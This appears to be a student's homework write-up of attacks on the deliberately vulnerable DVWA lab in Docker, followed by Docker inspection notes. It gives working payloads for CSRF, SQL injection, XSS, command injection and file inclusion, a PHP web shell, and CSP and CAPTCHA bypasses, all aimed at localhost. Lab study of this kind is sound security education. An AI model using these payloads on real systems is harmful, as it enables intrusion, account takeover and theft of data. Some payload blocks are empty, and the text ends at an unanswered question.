# dvwa-security-lab
CS 382 Cybersecurity Homework 02

---

## Part 1: Install Docker

Docker installed and verified to ensure containers could run correctly.


---

## Part 2: Deploy DVWA in Docker

After installing Docker, the next step was DVWA deployment.


The container was started and accessed through the browser at:

```
http://localhost:8080
```


---

## Part 3 and 4: Vulnerability Testing and Documentation

In this section, vulnerabilities available in DVWA are tested to understand how web applications can be exploited when proper security mechanisms are not implemented.

---

### Vulnerability: Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a vulnerability where an attacker tricks a logged-in user's browser into sending a request to a website without the user's knowledge. If the application does not verify the request properly, actions such as changing a password can be performed without the user intending to do it.

---

#### Security Level: Low

**Payload Used**

```html
<html>
<body onload="document.forms[0].submit()">

<form action="http://localhost:8080/vulnerabilities/csrf/" method="GET">
<input type="hidden" name="password_new" value="hacked">
<input type="hidden" name="password_conf" value="hacked">
<input type="hidden" name="Change" value="Change">
</form>

</body>
</html>
```

**Result**

The attack worked successfully and the password was changed.

**Screenshot**


**Explanation**

At the Low security level, DVWA does not check where the request is coming from. Because of this, the malicious HTML page was able to send a request to the server and change the password while the user was logged in. Since there is no validation, the server accepts the request and performs the action.

---

#### Security Level: Medium

**Payload Used**

The same payload used in the Low security level was tested again.

**Result**

The attack initially failed when the HTML file was opened locally. After hosting the file using a local web server, the request worked because the referer appeared to come from localhost.

**Screenshot**


**Explanation**

At the Medium security level, DVWA checks the HTTP Referer header. This means the application tries to verify that the request is coming from the same website. When the attack page was opened locally, the referer header was missing so the request failed. When the malicious page was hosted on a local server, the referer contained `localhost`, which allowed the request to bypass the check. This shows that using only the referer header is weak protection.

---

#### Security Level: High

**Payload Used**

http://localhost:8080/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change&user_token=a831b05a2632d1efbfa432494aa58a01

**Result**

Password was changed successfully.

**Screenshots**


**Explanation of Why It Worked**

At the high security level, DVWA adds protection by using an anti-CSRF token. This token must be included in the request so the server can verify that the request came from a legitimate page. However, the token can still be obtained by inspecting the page source or checking the browser console. After retrieving the token, it can be inserted into the crafted request URL. Because the request now contains a valid token, the server accepts it and the password change is completed.

---

### Vulnerability: SQL Injection

SQL Injection happens when user input is directly used in an SQL query without proper validation. An attacker can manipulate the query to access or modify database information.

---

#### Security Level: Low

**Payload Used**

```
1' OR '1'='1
```

**Result**

All user records were displayed from the database.

**Screenshot**


**Explanation**

At the Low security level, the user input is directly placed into the SQL query. Since there is no input filtering or validation, the injected condition `'1'='1'` is always true. Because of this, the database returns all records.

---

#### Security Level: Medium

**Payload Used**

```
1
```

**Result**

User records were still displayed.

**Screenshot**


**Explanation**

At the Medium level, DVWA uses the function `mysql_real_escape_string()` to escape special characters. However, the parameter is treated as a numeric value and is not placed inside quotes in the SQL query. Because of this, the escaping does not fully protect the query and SQL injection is still possible.

---

#### Security Level: High

**Payload Used**

```
a' UNION SELECT "test1","test2";-- -
```

**Result**

Custom values appeared in the output.

**Screenshot**


**Explanation**

At the High level, additional checks are added, but the SQL query is still created dynamically instead of using prepared statements. Because of this, a UNION-based injection can still modify the query result and display attacker‑controlled values.

---

### Vulnerability: Reflected Cross-Site Scripting (XSS)

Reflected XSS occurs when user input is immediately included in the webpage output without proper sanitization. This allows attackers to execute JavaScript in the user's browser.

---

#### Security Level: Low

**Payload Used**

```
<script>alert('XSS')</script>
```

**Result**

An alert popup appeared in the browser.

**Screenshot**


**Explanation**

At the Low security level, the application does not sanitize or filter user input before displaying it in the response. Because of this, the injected script runs directly in the browser.

---

#### Security Level: Medium

**Payload Used**

```
<ScRiPt>alert("XSS")</ScRiPt>
```

**Result**

The alert popup still appeared.

**Screenshot**


**Explanation**

At the Medium level, the application filters the `<script>` tag, but the filter is case‑sensitive. By changing the case of the letters (`<ScRiPt>`), the filter was bypassed and the script executed.

---

#### Security Level: High

**Payload Used**

```

```

**Result**

An alert popup appeared.

**Screenshot**


**Explanation**

The filter removes `<script>` tags but does not sanitize HTML event attributes such as `onerror`. By using an image tag with an event handler, JavaScript was still executed in the browser.

---

### Vulnerability: DOM Based Cross-Site Scripting (DOM XSS)

DOM Based Cross-Site Scripting occurs when client-side JavaScript processes user input and inserts it into the webpage without proper sanitization. The attack is executed entirely in the browser by manipulating the Document Object Model (DOM).

---

#### Security Level: Low

**Payload Used**

```
<script>alert('XSS')</script>
```

**Result**

An alert popup appeared in the browser.

**Screenshot**



**Explanation**

At the Low security level, the application directly inserts the value of the `default` parameter into the page using JavaScript. Since there is no filtering or sanitization, the browser interprets the `<script>` tag as executable JavaScript and runs it immediately.

---

#### Security Level: Medium

**Payload Used**

```

```

**Result**

The alert popup appeared.

**Screenshot**



**Explanation**

At the Medium level, the application attempts to block `<script>` tags. However, the protection only filters specific patterns and does not remove HTML event attributes. By using an image tag with the `onerror` event handler, JavaScript executes when the image fails to load.

---

#### Security Level: High

**Payload Used**

```

```

**Result**

The alert popup still appeared.

**Screenshot**



**Explanation**

At the High security level, DVWA attempts to filter malicious input using blacklist-based filtering. The filter blocks certain tags such as `<script>`, but it does not remove event handler attributes like `onerror`. Because the JavaScript executes through the image error event, the payload bypasses the filter and the XSS attack still succeeds. This demonstrates that blacklist filtering alone is not sufficient to prevent DOM-based XSS.

---

### Vulnerability: Stored Cross-Site Scripting (Stored XSS)

Stored XSS occurs when malicious input is stored on the server and executed every time the page is loaded.

---

#### Security Level: Low

**Payload Used**

Name: Aliza, 
Message:

```
<script>alert('Stored XSS')</script>
```

**Result**

The alert appeared every time the page was refreshed.

**Screenshot**


**Explanation**

At the Low level, the application does not validate or sanitize the stored input. The malicious script is saved in the database and executed whenever the page loads.

---

#### Security Level: Medium

**Payload Used**

```
<sCriPt>alert("XSS");</sCriPt>
```

**Result**

The alert appeared.

**Screenshot**


**Explanation**

Some filtering is applied at this level, but it is not applied to all input fields. The Name field was not properly filtered, which allowed the script to execute.

---

#### Security Level: High

**Payload Used**

```

```

**Result**

Alert appeared.

**Screenshot**



**Explanation**

The attack worked because the application mainly attempted to block `<script>` tags but did not properly filter HTML event attributes such as `onerror` or `onload`. By using the `onerror` attribute inside an image tag, JavaScript code was triggered when the image failed to load. Since the input was stored in the database, the malicious script executed automatically every time the affected page was opened.

---

### Vulnerability: Command Injection

Command Injection occurs when user input is passed directly into system commands without proper validation.

---

#### Security Level: Low

**Payload Used**

```
127.0.0.1 && dir
```

**Result**

After the ping command ran, the directory files were also displayed.

**Screenshot**


**Explanation**

At the Low level, the application does not filter command operators. By adding `&&`, another command was executed after the ping command finished.

---

#### Security Level: Medium

**Payload Used**

```
127.0.0.1 & dir
```

**Result**

The ping command ran and the directory listing was also shown.

**Screenshot**


**Explanation**

Some operators are filtered at this level, but the background operator `&` is not blocked. This allowed the attacker to run an additional command.

---

#### Security Level: High

**Payload Used**

```
127.0.0.1|dir
```

**Result**

The application displayed the directory listing along with the ping result.

**Screenshot**


**Explanation**

The developer tried to filter certain patterns and used `trim()` to remove spaces. However, removing spaces around the operator allowed the filter to be bypassed and command injection was still possible.

---

### Vulnerability: SQL Injection (Blind)

Blind SQL Injection occurs when the application does not directly display database results, but attackers can still determine information based on responses or delays.

---

#### Security Level: Low

**Payload Used**

```
1' AND 1=1#
```

**Result**

The message “User ID exists in the database” appeared.

**Screenshot**


**Explanation**

At the Low level, user input is directly inserted into the SQL query. Because the condition `1=1` is true, the query returns a valid result, confirming that SQL injection is possible.

---

#### Security Level: Medium

**Payload Used**

```
1
```

**Result**

The message indicated that the user ID exists.

**Screenshot**


**Explanation**

Although `mysql_real_escape_string()` is used, the query still treats the parameter as numeric and not enclosed in quotes. Because of this, the protection is incomplete.

---

#### Security Level: High

**Payload Used**

```
1' AND SLEEP(5)#
```

**Result**

The page took around 5 seconds to respond.

**Screenshot**


**Explanation**

The High level hides database output, but the injected SQL command is still executed. By using the `SLEEP()` function, the attacker can detect the vulnerability through response delays.

---

### Vulnerability: JavaScript Attacks

This vulnerability involves bypassing validation logic implemented in client-side JavaScript.

---

#### Security Level: Low

**Payload Used**

Manual execution of `generate_token()` in the browser console.

**Result**

The token was generated and validation succeeded.

**Screenshot**


**Explanation**

The token generation logic was implemented on the client side. By analyzing and manually running the function in the browser console, the correct token was generated.

---

#### Security Level: Medium

**Payload Used**

Manual execution of `do_elsesomething("XX")` in the browser console.

**Result**

The hidden token was regenerated and the form submission worked.

**Screenshot**


**Explanation**

The token was still generated using client-side JavaScript. By manually running the function in the browser console, the correct token was produced.

---

#### Security Level: High

**Payload Used**

```
In Console:

document.getElementById("phrase").value="success";
document.getElementById("token").value=sha256(sha256("XXsseccus")+"ZZ");
document.forms[0].submit();
```

**Result**

Token regenerated successfully.

**Screenshot**



**Explanation**

At the High security level, the application tries to improve protection by using an obfuscated script called `high.js`. This script creates the token through multiple functions and also includes extra checks, such as timing conditions, to make the logic harder to understand. However, after examining how these functions work, it is possible to replicate the same steps manually in the browser console. By generating the token using the same logic as the script, the validation can still be bypassed.

---

### Vulnerability: Brute Force

Brute Force attacks try many username and password combinations until the correct one is found.

---

#### Security Level: Low

**Payload Used**

```
admin : password
```

**Result**

Login was successful.

**Screenshot**


**Explanation**

There are no protections such as rate limiting or account lockout. Attackers can repeatedly try many password combinations until they find the correct one.

---

#### Security Level: Medium

**Payload Used**

```
admin : password
```

**Result**

Login was successful.

**Screenshot**


**Explanation**

A delay is added after failed login attempts. This slows down brute force attacks but does not fully prevent them.

---

#### Security Level: High

**Payload Used**

```
admin : password
```

**Result**

Authentication succeeded.

**Screenshot**


**Explanation**

The High level includes stronger validation and CSRF tokens, but weak credentials can still be guessed if strong password policies are not enforced.

---

### Vulnerability: File Upload

File upload vulnerabilities occur when a web application allows users to upload files without properly validating them. Attackers can upload malicious files such as scripts which may execute on the server.

---

#### Security Level: Low

**Payload Used**

```
shell.php
```

Content of the uploaded file:

```php
<?php
echo "File upload successful";
system($_GET['cmd']);
?>
```

**Result**

The file uploaded successfully and the PHP code executed when the file was opened in the browser.

**Screenshot**


**Explanation**

At the Low security level, the application does not check the file type or extension. Because of this, a malicious PHP file can be uploaded directly. When the uploaded file is accessed through the browser, the PHP code runs on the server.

---

#### Security Level: Medium

**Payload Used**

```
shell.php.jpg
```

**Result**

The file was successfully uploaded even though it contained PHP code.

**Screenshot**


**Explanation**

At the Medium security level, the application tries to restrict uploads by checking the file extension. However, this protection is weak. By using a double extension such as `.php.jpg`, the application thinks the file is an image and allows the upload. This shows that relying only on file extensions for validation is not secure.

---

#### Security Level: High

**Payload Used**

```
shell.php
shell.php.jpg
shell.php5
shell.phtml
```

**Result**

The upload was blocked and the malicious file could not be uploaded.

**Screenshot**


**Explanation**

At the High security level, stronger validation is applied. The application checks the file type and verifies whether the uploaded file is a real image. Because the uploaded file contained PHP code instead of image data, the server rejected it and the attack failed.

---

### Vulnerability: Weak Session IDs

Weak Session IDs occur when a web application generates session identifiers that are predictable. Attackers can exploit this to hijack other users’ sessions and impersonate them.

---

#### Security Level: Low

**Payload Used**

Generated session IDs using DVWA’s **Generate** button. Observed session values from browser cookies.

**Result**

The session IDs were sequential integers: 1, 2, 3, 4, 5

This allows an attacker to easily predict the next session ID and hijack a session.

**Screenshot**


**Explanation**

At Low security, DVWA generates session IDs as **incrementing integers**, making them fully predictable. No randomness or hashing is applied, so an attacker can simply guess the next ID to hijack a session.

---

#### Security Level: Medium

**Payload Used**

Generated session IDs at Medium level and observed cookies.

**Result**

The session IDs were based on **Unix timestamps**, e.g.: 1699443834, 1699443835, 1699443836

These could be guessed if the attacker knew approximately when the session was created.

**Screenshot**


**Explanation**

At Medium security, DVWA uses **timestamps** to generate session IDs. While less predictable than sequential integers, an attacker can still estimate session IDs based on the current time, making this partially vulnerable.

---

#### Security Level: High

**Payload Used**

Generated session IDs at High level and observed cookies.

**Result**

The session IDs were **long random hash values**, e.g.: 7c4a8d09ca3762af61e59520943dc264

These are not sequential or timestamp-based, making them harder to predict, but MD5 is considered **cryptographically weak** and can be subject to collision attacks.

**Screenshot**


**Explanation**

At High security, DVWA generates session IDs using **MD5 hashes**. While this increases unpredictability compared to Low and Medium, MD5 is **not recommended for secure session IDs**. Modern best practices require cryptographically secure random functions (e.g., `random_bytes()` in PHP) instead of MD5.

---

### Vulnerability: Content Security Policy (CSP) Bypass

Content Security Policy (CSP) is a security mechanism designed to reduce the risk of Cross‑Site Scripting (XSS) attacks by restricting where scripts can be loaded from. If CSP is misconfigured, attackers may still be able to execute malicious JavaScript by loading scripts from allowed sources or abusing existing endpoints.

---

#### Security Level: Low

**Payload Used**

```
http://127.0.0.1:8000/evil.js
```

Content of `evil.js`:

```javascript
alert("CSP Bypass Successful");
```

**Result**

The alert popup appeared in the browser when the script was loaded.

**Screenshot**



**Explanation**

At the Low security level, the CSP configuration does not properly restrict script sources. Because of this, the application allows scripts to be loaded from external locations. By hosting a malicious JavaScript file (evil.js) on a local server and providing its URL in the input field, the browser loads and executes the script. This demonstrates that without proper CSP restrictions, attackers can easily execute malicious scripts.

#### Security Level: Medium

**Payload Used**

```
http://127.0.0.1:8000/evil.js
```

Content of `evil.js`:

```javascript
alert("CSP Bypass Successful");
```

**Result**

The alert popup appeared again when the script was loaded.

**Screenshot**


**Explanation**

At the Medium security level, the application attempts to restrict script sources using a basic CSP rule. However, scripts from localhost are still allowed. Since the malicious script was hosted on the local machine using a simple HTTP server, the browser accepted the script and executed it. This shows that CSP policies must be carefully configured because allowing scripts from broad sources like localhost can still allow attackers to bypass the protection.

#### Security Level: High

**Payload Used**

```
http://localhost:8080/vulnerabilities/csp/source/jsonp.php?callback=alert
```

**Result**

The alert appeared in the browser.

**Screenshot**



**Explanation**

At the High security level, the CSP policy restricts scripts to the same origin using a rule similar to script-src 'self'. External scripts such as evil.js from other sources are blocked. However, the application contains a JSONP endpoint (jsonp.php) that allows a callback parameter. By providing alert as the callback, the endpoint returns executable JavaScript from the same origin. Since the script comes from the allowed domain (localhost:8080), the browser executes it. This demonstrates how JSONP endpoints can be abused to bypass CSP protections.

---

### Vulnerability: File Inclusion

File Inclusion vulnerabilities occur when a web application loads files dynamically based on user input without proper validation. Attackers can manipulate the file path parameter to load unintended files from the server, which may expose sensitive system information or application data.

---

#### Security Level: Low

**Payload Used**

```
http://localhost:8080/vulnerabilities/fi/?page=file4.php
```

**Result**

The application successfully loaded `file4.php`, even though it is not normally accessible through the interface.

**Screenshot**



**Explanation**

At the Low security level, DVWA directly loads the file specified in the `page` parameter using the PHP `include()` function without validating the file name. Because there is no restriction on which file can be loaded, an attacker can manually modify the URL to access files that are not intended to be publicly accessible.

---

#### Security Level: Medium

**Payload Used**

```
http://localhost:8080/vulnerabilities/fi/?page=//etc/passwd
```


**Result**

The contents of the `/etc/passwd` file were displayed in the browser.

**Screenshot**



**Explanation**

At the Medium security level, DVWA attempts to block directory traversal by filtering certain patterns such as `../`. However, the filtering is incomplete and does not account for alternative path formats. By using `//etc/passwd`, the attacker bypasses the weak filter and forces the application to include a sensitive system file from the server.

---

#### Security Level: High

**Payload Used**

```
http://localhost:8080/vulnerabilities/fi/?page=file:////etc/passwd
```

**Result**

The application displayed the contents of the `/etc/passwd` file.

**Screenshot**


**Explanation**

At the High security level, DVWA attempts to restrict file inclusion by validating the input and blocking common directory traversal patterns. However, the application does not properly validate URI schemes. By using the `file://` protocol, the attacker bypasses the input validation and forces the application to include a sensitive file from the server. This demonstrates how improper input validation can still allow file inclusion attacks even when additional security controls are implemented.

---

### Vulnerability: Insecure CAPTCHA

Insecure CAPTCHA occurs when a CAPTCHA system that is supposed to prevent automated actions can be bypassed because the application does not properly verify it on the server. Attackers can modify request parameters and perform protected actions without actually completing the CAPTCHA challenge.

---

#### Security Level: Low

**Payload Used**

```
step=2&password_new=test123&password_conf=test123&Change=Change
```

**Result**

The password was successfully changed without solving the CAPTCHA challenge.

**Screenshot**



**Explanation**

At the Low security level, DVWA does not properly verify the CAPTCHA on the server side. The validation is performed only through client-side checks in the browser. Because of this, an attacker can intercept the request and submit it directly to the server without completing the CAPTCHA challenge. Since the server does not perform its own verification, the password change request is accepted.

---

#### Security Level: Medium

**Payload Used**

```
step=2&password_new=test123&password_conf=test123&passed_captcha=true&Change=Change
```

**Result**

The password was successfully changed without solving the CAPTCHA correctly.

**Screenshot**


**Explanation**

At the Medium security level, DVWA introduces a parameter called `passed_captcha` to indicate whether the CAPTCHA was solved. However, this parameter is controlled by the client and is not securely validated by the server. By intercepting the request and manually setting `passed_captcha=true`, the attacker can bypass the CAPTCHA verification and change the password.

---

#### Security Level: High

**Payload Used**

```
step=2&password_new=test123&password_conf=test123&g-recaptcha-response=hidd3n_valu3&Change=Change
```

**Modified Header**

```
User-Agent: reCAPTCHA
```

**Result**

The password was successfully changed without solving the CAPTCHA challenge.

**Screenshot**


**Explanation**

At the High security level, DVWA attempts to validate CAPTCHA using the `g-recaptcha-response` parameter. However, the application does not properly verify this response with the CAPTCHA verification service. By manually adding a fake `g-recaptcha-response` value and modifying the request header to mimic a reCAPTCHA request, the attacker can trick the application into assuming that the CAPTCHA verification was successful. Because of this, the password change request is accepted.

---

# Part 5: Docker Inspection Tasks

In this section, several Docker commands were executed to inspect the DVWA container and observe how the application runs inside the container environment.

---

### Command: docker ps

This command was used to display all currently running containers.



The output shows the DVWA container running along with details such as container ID, image name, status, and port mapping. The port mapping confirms that the web server inside the container is accessible through `localhost:8080`.

---

### Command: docker inspect dvwa

This command was used to view detailed configuration information about the DVWA container.



The output contains detailed JSON information including network configuration, environment variables, container settings, and other metadata that describe how the container is configured.

---

### Command: docker logs dvwa

This command was used to display logs generated by the container.



The logs show messages generated by the web server and the DVWA application during startup and runtime. These logs help in understanding the activity occurring inside the container.

---

### Command: docker exec -it dvwa /bin/bash

This command was used to open an interactive shell inside the running container.



This allows direct access to the container’s file system and environment, making it possible to explore the internal structure of the application.

---

### Inside the Container

**Command Used**

```
ls /var/www/html
```



The command lists the files stored in the web server directory where the DVWA application is located.

---

### Observations

**Where application files are stored**

The DVWA application files are stored in the following directory:

```
/var/www/html
```

This directory contains the PHP source code and other files used by the web application.

---

**What backend technology DVWA uses**

DVWA is built using PHP for the backend logic and MySQL (or MariaDB) for the database. The application is served through the Apache web server. Together these components form a typical LAMP stack environment.

---

**How Docker isolates the environment**

Docker runs applications inside containers that are isolated from the host system. Each container has its own file system, processes, and network configuration. This isolation is achieved using Linux namespaces and control groups (cgroups). Linux namespaces ensure that each container has its own view of system resources such as processes, networking, and file systems, while cgroups limit and manage the resources (such as CPU and memory) that the container can use. Because of this isolation, DVWA runs independently without affecting the host operating system or other applications.

---

# Part 6: Security Analysis Questions

### Why does SQL Injection succeed at Low security?

At the Low security level, user input is directly included in the SQL query without validation or sanitization. Because the input is not filtered, attackers can inject SQL conditions that modify the query and retrieve additional data from the database.

---

### What control prevents it at High?

At higher security levels, SQL Injection can be prevented by using secure database practices such as prepared statements and parameterized queries. These techniques separate user input from the SQL command structure, preventing the input from altering the query logic.

---

### Does HTTPS prevent these attacks? Why or why not?

